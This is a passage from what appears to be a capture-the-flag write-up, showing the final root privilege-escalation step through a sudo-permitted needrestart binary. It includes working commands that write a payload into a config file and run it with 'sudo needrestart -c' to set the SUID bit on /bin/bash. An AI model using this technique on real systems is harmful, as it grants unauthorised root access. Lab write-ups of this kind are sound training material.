

I wasn't familiar with this tool but it seemed to be non-default so I looked it up:



I started checking it out and it turns out we can execute files using the `-c` flag.



Since we can do this as *root* we can easily escalate privs.

```bash
echo 'system("chmod +s /bin/bash");' > root.sh
sudo /usr/sbin/needrestart -c root.sh
```



### root.txt




---

</PasswordProtect>